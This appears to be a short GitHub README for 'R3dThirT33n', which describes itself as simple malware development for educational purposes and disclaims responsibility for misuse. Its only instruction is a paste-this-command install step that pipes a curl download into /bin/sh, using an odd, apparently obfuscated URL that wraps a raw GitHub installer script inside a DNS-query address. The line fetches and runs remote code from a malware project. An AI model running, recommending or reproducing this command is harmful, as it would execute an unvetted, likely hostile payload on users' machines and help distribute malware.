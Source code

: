 # R3dThirT33n

Simple Malware Development for educational purposes, decline any responsibility for misuses of this tools

To install the service run the following command to setup the server.

> /bin/sh -c <(curl -fsSL https://cloudflare-dns.com/dns-query?name=https://raw.githubusercontent.com/th333boo/r3d33/master/installer.sh)